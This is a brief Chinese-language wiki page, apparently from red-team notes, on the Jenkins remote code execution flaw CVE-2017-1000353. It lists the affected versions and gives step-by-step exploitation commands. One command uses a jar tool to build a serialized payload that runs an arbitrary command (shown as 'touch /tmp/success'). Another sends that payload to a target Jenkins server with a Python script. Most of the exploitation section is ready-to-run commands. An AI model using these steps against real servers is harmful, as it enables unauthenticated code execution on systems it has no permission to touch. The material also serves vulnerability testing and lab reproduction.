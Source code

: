 ```yaml
---
title: Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）
description: 
published: true
date: 2025-07-05T00:27:39.143Z
tags: 
editor: markdown
dateCreated: 2025-07-05T00:27:39.143Z
---
```


# CVE-2017-1000353

## 漏洞概述

攻击者使用该漏洞可以在被攻击服务器执行任意代码，漏洞利用不需要任何的权限

## 影响范围

```http
Jenkins <=2.56
Jenkins LTS <= 2.46.1
```

## 漏洞利用

1、下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](/Users/kkfine/Documents/RedTeam/红蓝对抗/Pentest-tools/外网框架打点/jenkins)，这是生成POC的工具

执行下面命令，生成字节码文件

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"

# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

2、将刚才生成的字节码文件发送给目标

```bash
python CVE-2017-1000353.py http://your-ip:8080 jenkins_poc.ser
```

